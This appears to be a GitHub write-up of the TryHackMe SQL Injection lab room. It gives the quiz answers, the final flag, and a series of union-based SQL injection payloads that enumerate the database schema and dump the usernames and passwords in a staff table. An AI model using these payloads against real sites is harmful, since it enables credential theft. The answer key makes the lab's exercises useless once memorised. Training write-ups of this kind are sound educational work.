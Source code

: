 <h1 align='center'>:fire: TryHackMe SQL Injection room :fire: </h1>

![show image](images/1-show.png)<br/>
[SQL Injection Room](https://tryhackme.com/room/sqlinjectionlm)


## Task 1: Breif
### Q: What does SQL stand for?
![what does](images/2-what-does.png)<br/>
#### A: `Structured Query Language` :heavy_check_mark:<br/>

## Task 2: What is database?
### Q: What is the acronym for the software that controls a database?
![dbms](images/3.png)<br/>
#### A: `DBMS` :heavy_check_mark:<br/>

### Q: What is the name of the grid-like structure which holds the data?
![table](images/4-table.png)<br/>
#### A: `table` :heavy_check_mark:<br/>

## Task 3: What is SQL?
### Q: What SQL statement is used to retrieve data?
![select](images/5-select.png)<br/>
#### A: `SELECT` :heavy_check_mark:<br/>

### Q: What SQL clause can be used to retrieve data from multiple tables?
![union](images/6-union.png)<br/>
#### A: `UNION` :heavy_check_mark:<br/>

### Q: What SQL statement is used to add data?
![insert](images/7-insert.png)<br/>
#### A: `INSERT` :heavy_check_mark:<br/>

## Task 4: What is SQL Injection?
### Q: What character signifies the end of an SQL query?
![semicolon](images/8-semicolon.png)<br/>
#### A: `;` :heavy_check_mark:<br/>

## Task 5: In-Band SQLi
### Q: What is the flag after completing level 1?
    '
![apostrophe](images/9-apostrophe.png)<br/>
Try typing an apostrophe `'` after the `id=1` and press enter. And you'll see this returns an SQL error informing you of an error in your syntax.<br/>

    1 UNION SELECT 1,2,3
![error solved](images/10-error-solved.png)<br/>
Success,  the error message has gone, and the article is being displayed, but now  we want to display our data instead of the article.<br/>

Now change value `1` to `0` before UNION

    0 UNION SELECT 1,2,3
![change value](images/11-change-value.png)<br/>
You'll now see the article is just made up of the result from the UNION select returning the column values `1, 2, and 3`<br/>

    0 UNION SELECT 1,2,database()
![datanase](images/12-database.png)<br/>
It now shows the name of the database, which is `sqli_one`.<br/>

    0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
![tables name](images/13-get-tables-name.png)<br/>
The information we want to retrieve has changed from table_name to `column_name`, the table we are querying in the information_schema database has changed from tables to `columns`, and we're searching for any rows where the `table_name` column has a value of `staff_users`.<br/>

    0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
![columns](images/14-all-columns.png)<br/>
We get all the columns name of `stuff_users` table

    0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
![password](images/15-password.png)<br/>
#### A: `THM{SQL_INJECTION_3840}` :heavy_check_mark:<br/>